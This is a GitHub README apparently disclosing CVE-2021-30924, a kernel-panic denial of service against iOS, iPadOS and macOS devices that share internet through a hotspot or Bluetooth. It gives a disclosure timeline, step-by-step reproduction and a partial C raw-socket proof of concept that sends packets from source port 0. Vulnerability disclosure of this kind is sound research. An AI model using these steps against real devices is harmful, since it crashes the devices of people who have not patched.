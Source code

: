 # CVE-2021-30924. PoC for iOS, macOS, iPadOS (DoS)

This repo demonstrates the method to cause kernel panic (DoS) on iOS, macOS, iPadOS devices by sending 2+ TCP/UDP packets from attacker device via apple device hotspot net to external network.
The issue was discovered at <DATE>, was reproduced on <list of devices> at september 2021 and was reported to Apple at 14 september.

UPD:
- 25 Oct 2021: Apple has fixed the issue for iOS and iPadOS 15.1 and macOS 12.0 without any kind of public acknowledgement to our team.
- 18 Nov 2021: Apple mentioned our names in [CVE-2021-30924](https://support.apple.com/en-us/HT212869) only for macOS, without any other communication with our team.
    
## Issue
Kernel panic after send 2+ TCP/UDP packets by attacker device via apple device hotspot net to external network

## Steps
### iPhone, iPad
1) Switch into hotspot mode
1) Attacker connect to iPhone network
1) Attacker send 2+ TCP/UDP packet from source port 0 to different destination ports in external network.
1) Kernel panic
### iMac, Mac, MacBook
1) Require internet access on device
1) On "Internet sharing" (on Bluetooth PAN) on victim apple device
1) Bluetooth pair attacker and victim apple device
1) Attacker connect to internet via apple device
1) Attacket send 2+ TCP/UDP packet from source port 0 to different destination ports in external network.
1) Kernel panic



## Here is a short proof of concept.
We used raw sockets to form a custom package and send requests from port 0.

```с
...
    tcph->source = htons (0); //here we specify the output port 0
...
    while (1)
    {
        tcph->dest = htons (rand()); //here we specify the input port random
        if (sendto (s, datagram, iph->tot_len ,    0, (struct sockaddr *) &sin, sizeof (sin)) < 0)
        {
            perror("sendto failed");
        }
        else
        {
            printf ("Packet Send. Length : %d \n" , iph->tot_len);
        }
        sleep(1);
    }
...
```
After sending 2 packets(print "Packet Send..."), DoS is called and elf execution can be terminated.

## Requirements
Linux-based systems. (tested on Ubuntu 21.04)

## Our links
Elaman Iskakov - @darling_x0r
Alexey Katkov - @watman27
